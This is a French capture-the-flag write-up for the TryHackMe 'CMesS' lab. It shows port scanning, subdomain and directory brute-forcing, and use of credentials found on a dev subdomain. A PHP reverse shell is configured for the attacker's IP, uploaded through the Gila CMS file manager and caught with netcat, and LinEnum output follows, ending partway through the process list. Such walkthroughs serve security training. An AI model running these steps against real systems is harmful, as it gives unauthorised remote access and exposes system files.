




# CMesS #

## Task 1 Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.56.120 cmess.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A cmess.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-25 08:58 CEST
Nmap scan report for cmess.thm (10.10.56.120)
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/25%OT=22%CT=1%CU=38631%PV=Y%DS=2%DC=T%G=Y%TM=6125EA6
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   33.02 ms 10.9.0.1
2   33.48 ms cmess.thm (10.10.56.120)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.31 seconds
```

Ici on voit deux services : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80, le cms GILA est détecté.  

Sur le site principale il y a rien d'intéressant.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 107
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                                                                                                                                                                        

Total time: 24.29694
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 205.3344
```

On brute force les sous domaines.    
On trouve un sous domaine dev.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.56.120 dev.cmess.thm' >> /etc/hosts"
```

On met le sous domaine dans le fichier hosts.   

    

Sur la page principal du sous domaine on trouve des identifiants :   
Nom : andre@cmess.thm  
Mot de passe : KPFTN_f2yxe%    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cmess.thm/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/0                    (Status: 200) [Size: 3851]
/01                   (Status: 200) [Size: 4078]
/1                    (Status: 200) [Size: 4078]
/1x1                  (Status: 200) [Size: 4078]
/about                (Status: 200) [Size: 3353]
/About                (Status: 200) [Size: 3339]
/admin                (Status: 200) [Size: 1580]
/api                  (Status: 200) [Size: 0]   
/assets               (Status: 301) [Size: 318] [--> http://cmess.thm/assets/?url=assets]
/author               (Status: 200) [Size: 3590]                                         
/blog                 (Status: 200) [Size: 3851]                                         
/category             (Status: 200) [Size: 3862]                                         
/cm                   (Status: 500) [Size: 0]                                            
/feed                 (Status: 200) [Size: 735]                                          
/fm                   (Status: 200) [Size: 0]                                            
/index                (Status: 200) [Size: 3851]                                         
/Index                (Status: 200) [Size: 3851]                                         
/lib                  (Status: 301) [Size: 312] [--> http://cmess.thm/lib/?url=lib]      
/log                  (Status: 301) [Size: 312] [--> http://cmess.thm/log/?url=log]      
/login                (Status: 200) [Size: 1580]                                         
/robots.txt           (Status: 200) [Size: 65]                                           
/search               (Status: 200) [Size: 3851]                                         
/Search               (Status: 200) [Size: 3851]                                         
/server-status        (Status: 403) [Size: 274]                                          
/sites                (Status: 301) [Size: 316] [--> http://cmess.thm/sites/?url=sites]  
/src                  (Status: 301) [Size: 312] [--> http://cmess.thm/src/?url=src]      
/tag                  (Status: 200) [Size: 3874]                                         
/tags                 (Status: 200) [Size: 3139]                                         
/themes               (Status: 301) [Size: 318] [--> http://cmess.thm/themes/?url=themes]
/tmp                  (Status: 301) [Size: 312] [--> http://cmess.thm/tmp/?url=tmp]     
```

On recherchant le répertoire cachés on voit \/admin

    

On se connect.   

On voit aussi un autre répertoire admin on va dessus et on tombe sur un panneau de configuration.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-25 09:26:44 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php
```

On prépare le reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234   
listening on [any] 1234 ...
```

On écoute sur le bon port pour se connecter sur le reverse shell.  

    

Dans le panneau de configuration dans le menu à gauche on va dans Content-\>File manager.   
Dans Upload est on téléverse notre reverse shell.   

    

On exécute le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.56.120] 40100
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 00:35:23 up 40 min,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home 
andre
$ ls /home/andre/
ls: cannot open directory '/home/andre/': Permission denied
```

On a shell mais pas les droits.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/LinEnum/master/LinEnum.sh -nv
2021-08-25 09:41:51 URL:https://raw.githubusercontent.com/timruff/LinEnum/master/LinEnum.sh [46631/46631] -> "LinEnum.sh" [1]
```

Pour trouver un moyen d'avoir une élevation de privilège on téléchar LinEnum.sh.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

--------------------------------------

$ cd tmp 
$ chmod +x LinEnum.sh
```

On téléver LinEnum.sh et on le prépare.    

```bash
$ ./LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Wed Aug 25 00:47:50 PDT 2021


### SYSTEM ##############################################
[-] Kernel information:
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-142-generic (buildd@lgw01-amd64-033) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.10) ) #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"
NAME="Ubuntu"
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
cmess


### USER/GROUP ##########################################
[-] Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
andre            pts/0    10.0.0.20        Thu Feb 13 15:02:43 -0800 2020


[-] Who else is logged on:
 00:47:51 up 52 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=107(uuidd) gid=111(uuidd) groups=111(uuidd)
uid=1000(andre) gid=1000(andre) groups=1000(andre)
uid=108(mysql) gid=117(mysql) groups=117(mysql)
uid=109(sshd) gid=65534(nogroup) groups=65534(nogroup)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
andre:x:1000:1000:andre,,,:/home/andre:/bin/bash
mysql:x:108:117:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin


[-] Super user account(s):
root


[-] Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K Feb  6  2020 .
drwxr-xr-x 22 root  root  4.0K Feb  6  2020 ..
drwxr-x---  4 andre andre 4.0K Feb  9  2020 andre


### ENVIRONMENTAL #######################################
[-] Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
APACHE_LOG_DIR=/var/log/apache2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/tmp
APACHE_RUN_GROUP=www-data
LANG=C
SHLVL=1
APACHE_LOCK_DIR=/var/lock/apache2
APACHE_RUN_DIR=/var/run/apache2
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
drwxr-xr-x 2 root root  4096 Feb  6  2020 /bin
drwxr-xr-x 2 root root  4096 Feb  6  2020 /sbin
drwxr-xr-x 2 root root 20480 Feb  6  2020 /usr/bin
drwxr-xr-x 2 root root  4096 Feb 26  2019 /usr/local/bin
drwxr-xr-x 2 root root  4096 Feb 26  2019 /usr/local/sbin
drwxr-xr-x 2 root root  4096 Feb  6  2020 /usr/sbin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash


[-] Current umask value:
0000
u=rwx,g=rwx,o=rwx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  805 Feb  9  2020 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  670 Jun 22  2017 php
-rw-r--r--  1 root root  191 Feb  6  2020 popularity-contest

/etc/cron.daily:
total 48
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  539 Jun 11  2018 apache2
-rwxr-xr-x  1 root root 1474 Oct  9  2018 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x  1 root root  372 May  5  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  435 Nov 17  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 12  2015 passwd
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 89 root root 4096 Feb 13  2020 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *


[-] Systemd timers:
NEXT                         LEFT     LAST                         PASSED    UNIT                         ACTIVATES
Wed 2021-08-25 06:49:21 PDT  6h left  Tue 2021-08-24 23:55:46 PDT  52min ago apt-daily-upgrade.timer      apt-daily-upgrade.service
Wed 2021-08-25 08:05:34 PDT  7h left  Tue 2021-08-24 23:55:46 PDT  52min ago apt-daily.timer              apt-daily.service
Thu 2021-08-26 00:10:28 PDT  23h left Wed 2021-08-25 00:10:28 PDT  37min ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
Enable thorough tests to see inactive timers


### NETWORKING  ##########################################
[-] Network and IP info:
eth0      Link encap:Ethernet  HWaddr 02:f9:0d:fc:a3:09  
          inet addr:10.10.56.120  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::f9:dff:fefc:a309/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:99728 errors:0 dropped:0 overruns:0 frame:0
          TX packets:94418 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:6150862 (6.1 MB)  TX bytes:53586582 (53.5 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:307 errors:0 dropped:0 overruns:0 frame:0
          TX packets:307 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:26280 (26.2 KB)  TX bytes:26280 (26.2 KB)


[-] ARP history:
ip-10-10-0-1.eu-west-1.compute.internal (10.10.0.1) at 02:c8:85:b5:5a:aa [ether] on eth0


[-] Nameserver(s):
nameserver 10.0.0.2


[-] Default route:
default         ip-10-10-0-1.eu 0.0.0.0         UG    0      0        0 eth0


[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               


[-] Listening UDP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -               


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.2  1.1  37716  5820 ?        Ss   Aug24   0:07 /sbin/init noprompt
root         2  0.0  0.0      0     0 ?        S    Aug24   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    Aug24   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        S    Aug24   0:00 [kworker/u30:0]
root         7  0.0  0.0      0     0 ?        S    Aug24   0:00 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    Aug24   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    Aug24   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    Aug24   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    Aug24   0:00 [kdevtmpfs]
root        12  0.0  0.0      0     0 ?        S<   Aug24   0:00 [netns]
root        13  0.0  0.0      0     0 ?        S<   Aug24   0:00 [perf]
root        14  0.0  0.0      0     0 ?        S    Aug24   0:00 [xenwatch]
root        15  0.0  0.0      0     0 ?        S    Aug24   0:00 [xenbus]
root        17  0.0  0.0      0     0 ?        S    Aug24   0:00 [khungtaskd]
root        18  0.0  0.0      0     0 ?        S<   Aug24   0:00 [writeback]
root        19  0.0  0.0      0     0 ?        SN   Aug24   0:00 [ksmd]
root        20  0.0  0.0      0     0 ?        S<   Aug24   0:00 [crypto]
root        21  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kintegrityd]
root        22  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        23  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kblockd]
root        24  0.0  0.0      0     0 ?        S<   Aug24   0:00 [ata_sff]
root        25  0.0  0.0      0     0 ?        S<   Aug24   0:00 [md]
root        26  0.0  0.0      0     0 ?        S<   Aug24   0:00 [devfreq_wq]
root        27  0.0  0.0      0     0 ?        S    Aug24   0:00 [kworker/u30:1]
root        29  0.0  0.0      0     0 ?        S    Aug24   0:00 [kswapd0]
root        30  0.0  0.0      0     0 ?        S<   Aug24   0:00 [vmstat]
root        31  0.0  0.0      0     0 ?        S    Aug24   0:00 [fsnotify_mark]
root        32  0.0  0.0      0     0 ?        S    Aug24   0:00 [ecryptfs-kthrea]
root        48  0.0  0.0      0     0 ?        S<   Aug24   0:00 [kthrotld]
root        49  0.0  0.0      0     0 ?        S<   Aug24   0:00 [acpi_thermal_pm]
root        50  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        51  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        52  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        53  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        54  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        58  0.0  0.0      0     0 ?        S    Aug24   0:00 [scsi_eh_0]
root        59  0.0  0.0      0     0 ?        S<   Aug24   0:00 [scsi_tmf_0]
root        60  0.0  0.0      0     0 ?        S    Aug24   0:00 [scsi_eh_1]
root        61  0.0  0.0      0     0 ?        S<   Aug24   0:00 [scsi_tmf_1]
root        67  0.0  0.0      0     0 ?        S<   Aug24   0:00 [ipv6_addrconf]
root        69  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        81  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root        82  0.0  0.0      0     0 ?        S<   Aug24   0:00 [deferwq]
root        83  0.0  0.0      0     0 ?        S<   Aug24   0:00 [charger_manager]
root       133  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       134  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       135  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
root       136  0.0  0.0      0     0 ?        S<   Aug24   0:00 [bioset]
